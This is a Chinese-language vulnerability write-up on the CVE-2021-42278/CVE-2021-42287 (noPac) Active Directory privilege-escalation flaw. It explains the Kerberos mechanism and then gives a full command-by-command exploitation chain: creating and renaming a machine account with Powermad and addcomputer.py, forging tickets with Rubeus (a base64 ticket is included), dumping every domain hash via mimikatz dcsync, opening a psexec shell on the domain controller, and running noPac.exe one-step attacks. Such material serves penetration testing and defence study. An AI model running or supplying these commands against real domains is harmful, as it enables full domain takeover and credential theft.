

0x01 漏洞详情
该漏洞是由于Active Directory 域服务没有进行适当的安全限制，导致可绕过安全限制进行权限提升。
0x02 影响版本
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows Server, version 20H2 (Server Core Installation)
Windows Server, version 2004 (Server Core installation)
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
Windows Server 2019
0x03 漏洞原理
1.CVE-2021-42278
允许攻击者使用计算机帐户sAMAccountName欺骗来模拟域控制器。
2.CVE-2021-42287
请求服务票证时，首先需要申请 TGT。当 KDC 未找到请求的服务票证时，KDC 会自动再次搜索带结尾带有$的，如果用户user获得了 TGT，随即user用户被删除或修改，并且使用该 TGT进行S4U2self以另一个用户身份请求服务票据时，会导致KDC找不到user账户，从而再次搜索带结尾带有$的user的用户，这时候当我们的user等于DC 机器账户时，会使DC 用自己的密钥加密服务票据 ST，然后就是得到了一个高权限 ST。
3.CVE-2020-25719
允许有权创建其他用户或机器帐户的委派管理员可以滥用票证发出时间和呈现时间（返回 AD DC）之间的竞争来模拟不同的帐户，包括高特权帐户。
场景： CVE-2021-42287和CVE-2021-42287 结合使用可以在申请其他域内的高权限的服务票 据，也就是说，有个a.com 域的abc普通域内用户，对b.com的admin高权限账户有GenericAll 权限（主要是为了设置altSecurityIdentities属性），如果我们拥有这个abc用户，那么我们就可 以获得b.com域的拥有DCsync权限的票据。
原理：
b.com的在本域内的活动目录中找不到abc这个账户，那么他就去找本域的域用户中的 AltSecurityIdentities属性是否有次账户，恰巧，我们先一步就设置了admin 账户 altSecurityIdentities属性，那么账户就会添加该帐户的 PAC，这个票据就具有高权限。
因为利用这两个漏洞需要本地域内查找账户失败，所以需要攻击其他域，而 CVE-2020-25719可以在检索 TGT 后删除帐户，一样的达成利用条件，那么就可以直接攻击 本地域了。 这里很有趣的是，如果一个DC机器账户名字为DC1$,如果DC去找一个账户为DC1，没有找到 ，他就会自己在该账户后面加个$去搜索，就会找到DC1$(DC的机器账户)，并使用DC 的密钥 的来进行加密票据,且可以将票证中的sname重写为 LDAP 服务,用以模拟任意服务。
那么我们如何去获取一个账户为DC1的机器账户，普通域用户就可以创建，但是因为spn 的缘故，我们不能直接创建DC1的机器账户，只能后面改成DC1。
那么利用思路以下：
利用普通域用户创建一个机器账户，机器账户改名为DC1，然后申请TGT，然后把自己改 名，然后DC在TGS_REQ时会找不到这个账户就会以自己的密钥加密TGS，然后我们就可以 模拟域内任何服务的任何用户，就得到了一 个高权限的ST。
0x04 利用工具
https://github.com/cube0x0/noPac
https://github.com/WazeHell/sam-the-admin
https://github.com/PowerShellMafia/PowerSploit
https://github.com/Kevin-Robertson/Powermad
0x06 漏洞前提
需一个域账户密码
0x06 漏洞复现
1.手动利用
0x01 利用
需要对属性sAMAccountName and servicePrincipalName，具有写权限。说到机器账户，就可以利用域内默认的MAQ特性，默认允许域账户创建10个机器账户，而创建者对于机器账户具有写权限，当然可以更改这两个属性。
查看MAQ是否有限制，查看LDAP中的ms-ds-machineaccountquota属性即可。
攻击流程：
-
创建一个机器账户，这在之前的文章都有所提及，使用impacket的
addcomputer.py或是powermadaddcomputer.py是利用SAMR协议创建机器账户，这个方法所创建的机器账户没有SPN，所以可以不用清除 -
清除机器账户的
servicePrincipalName属性 -
将机器账户的
sAMAccountName，更改为DC的机器账户名字，注意后缀不带$ -
为机器账户请求TGT
-
将机器账户的
sAMAccountName更改为其他名字，不与步骤3重复即可 -
通过S4U2self协议向DC请求ST
-
DCsync
检测DC是否存在漏洞
可以通过Rubeus来检测，主要检测依据是tgt中是否添加pac，添加了pac就打了补丁，tgt就会 很大。
Rubeus.exe asktgt /user:admin /password:123456 /domain:adlab.com /dc:dc1.adlab.com /nopac /nowrap
1.通过域用户使用powermad创建一个机器账户，
powershell "set-ExecutionPolicy RemoteSigned" #设置powershell为宽容模式
Import-Module .\Powermad.ps1
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount test2 -Password $($password) -Domain adlab.com -DomainController dc1.adlab.com -Verbose
或者使用addcomputer.py，addcomputer.py是利用SAMR协议创建机器账户，这个方法所创建的机器账户没有SPN，所以可以不用清除
python3 addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host 10.10.10.100 -domain-netbios adlab 'adlab.com/admin:123456'
2.清除机器账户的servicePrincipalName属性
Import-Module .\Powerview.ps1
Set-DomainObject "CN=test2,CN=Computers,DC=adlab,DC=com" -Clear 'serviceprincipalname' -Verbose

3.将机器账户的sAMAccountName，更改为DC的机器账户名字，注意后缀不带$
Set-MachineAccountAttribute -MachineAccount hello -Value "dc" -Attribute samaccountname -Verbose
4.为机器账户请求TGT
Rubeus.exe asktgt /user:dc1 /password:ComputerPassword /domian:adlab.com /dc:dc1.adlab.com /nowrap
如果报错Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)，说明域控时间与攻击机时间差距较大。修改时间即可
5.将机器账户的sAMAccountName更改为原本的名字
Set-MachineAccountAttribute -MachineAccount test2 -Value "test2" -Attribute samaccountname -Verbose

6.通过S4U2self协议向DC请求ST
./Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:dc.attack.local /self /altservice:LD
AP/dc.attack.local /ptt /ticket:doIEtjCCBLKgAwIBBaEDAgEWooID0TCCA81hggPJMIIDxaADAgEFoQ4bDEFUVEFDSy5MT0NBTKIhMB+gAwIBAqEY
MBYbBmtyYnRndBsMYXR0YWNrLmxvY2Fso4IDiTCCA4WgAwIBEqEDAgECooIDdwSCA3NGU25Kb3bBzUrmzGGtZ9DZ4MlrIcxSYgF5bie2LYXWWpOslig/m1F9
XbNk6A2OHjm5jQxUre+vvFz8tyS2oyhjGykr+BCM5H7B37MXS3j1HtOTXLe/HyJsx8xK0ZT7LG/lWjUJiZOTxrIY+bwNYtS6wFnIzao33nxi0k0R7gXtF4dK
IzmqKt5K7ttKrcy/h9GsqDPKRowlu7OfjOVe/pQYnh8/QJ0pbXuaF/cT5fKiZcNUR+ihWJFomg+5EaKqohv+f2jRlKRXdaA2BWj3oapSABy7pSvBQioSxrE4
/2tcWB74BW+ZIbjg9ly6768qUPwGVohOt9Rv05hsCS36mGmCps8/iIxwq16wdH6XYwMzFTcrhZXhUoweSm+Y8B0DLa8GIMxNlYNGkelRKkAZaqZ2IzquaO+G
5c3gYgZ6dQu32Rfb4Ejwo9jwGgX5WVko4W+k+4zKP/wS6lTHMSoA2vAEL5yp0kvBkMv4ziTfIi9AwH1CWVI6SxoudPkUVsqcfHn3uxoAuSJNMkbkK8elUXJZ
0hOcC8xoHA8lPEjnK1BFesmCSRH/2M3CcQ7KRts2+qpWmfuW/078MSZzQWZPqdT7bN3ZahLz58YwaVHcAzGmbgwkHXGpRNQB7hZyXdtTv7LV9vcMDJkbRnQx
PBBMHIH3KCeGrOTfqAnlJC4WZXGaBtOExRT3EoRLvaVUDxpgLh6kUR6jsKSAdX5P7e6Spi+xGbWXFgsTAaRjhMTEzHnxDWBQDa49zRJhLZGfij4fjnC7IanX
PxlY3HR/kL+xv/1kSpP/2T9K+nFNSk/VulRfn0WBiVx6r0DCT4mYvmXTJv8d+IMG8oMokX9FawppfWt7O0rwEKb1x/h7yqXI32m80G+RjD51aHwA2+ssOt2q
1xBNU97ou58hOdGpMq6THuBOPbbu+OgcMsmyU963KrQsrUkqaih+PhLuzlI+vIxcFsr7JM/9poiiq9rNALfsatsYAFlQS7E9dl1HVcNYokzn74/z02k/M66B
7eA+AcBsfAYmMPROmy7NHf8HG2K+YFdhGH3fWjBNSonzUbpfcB4pPh9JTrPEorRfH2tF8WFS+4xJweBpKgW2LURqVkqHy2tuKwJF6clvElkhQB97lUEC6dXq
NneYAA42mlmAtgCqpuLs0g9vA/A1ba6pgr1Dq6KsgY/yo4HQMIHNoAMCAQCigcUEgcJ9gb8wgbyggbkwgbYwgbOgGzAZoAMCARehEgQQIzjlEo027OlatbDH
bcJq4KEOGwxBVFRBQ0suTE9DQUyiDzANoAMCAQGhBjAEGwJkY6MHAwUAQOEAAKURGA8yMDIxMTIxMjA5MjQyOVqmERgPMjAyMTEyMTIxOTI0MjlapxEYDzIw
MjExMjE5MDkyNDI5WqgOGwxBVFRBQ0suTE9DQUypITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDGF0dGFjay5sb2NhbA==
7.获取域内所有hash
mimikatz
lsadump::dcsync /domain:adlab.com /all /csv

dcsync失败是因为缺少LDAP票据，运行以下命令即可
noPac.exe -domain p1d3er.com -user server2012 -pass Admin@123 /dc AD-2016.p1d3er.com /mAccount t00ls /mPassword t00ls123 /service ldap /ptt
通过psexec弹个交互式shell
psexec.exe \\dc1.adlab.com cmd
2.工具利用
1.扫描是否存在漏洞
noPac.exe scan -domain adlab.com -user admin -pass 123456
2.漏洞利用
noPac.exe -domain adlab.com -user admin -pass 123456 /dc DC1.adlab.com /mAccount demo123 /mPassword Password123! /service cifs /ptt
查看导入的票据
获取域内所有hash
mimikatz
lsadump::dcsync /domain:adlab.com /all /csv
通过psexec弹个交互式shell
psexec.exe \\dc1.adlab.com cmd
0x07 参考地址
https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html
https://mp.weixin.qq.com/s/E3FMHiZ2EPz1D22P_iNZEQ